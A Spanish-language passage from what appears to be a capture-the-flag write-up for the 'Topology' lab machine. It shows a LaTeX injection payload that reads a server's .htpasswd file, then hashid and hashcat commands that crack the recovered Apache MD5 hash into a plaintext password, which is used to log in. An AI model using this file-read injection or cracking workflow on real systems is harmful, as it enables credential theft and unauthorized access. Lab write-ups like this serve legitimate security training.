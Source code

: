 Decidimos listar el contenido del `.htpasswd` en el resultado obtenido, se nos muestra las credenciales del usuario `vdaisley` en formato hash, probablemente `Apache MD5`.

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

<figure><img src="../../.gitbook/assets/imagen (18) (1).png" alt=""><figcaption></figcaption></figure>

Verificamos que el tipo de hash encontrado es `Apache MD5`. A través de `hashcat`, finalmente logramos crackear el hash y obtener las credenciales en texto plano.

```bash
❯ hashid '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0'
Analyzing '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0'
[+] MD5(APR) 
[+] Apache MD5 

❯ hashcat -h | grep Apache
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                      | FTP, HTTP, SMTP, LDAP Server
   
❯ hashcat -a 0 -m 1600 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

Probamos de autenticarnos con las credenciales encontradas en [http://dev.topology.htb](http://dev.topology.htb), logramos acceder a la página web, pero no obtenemos información interesante que nos pueda servir.
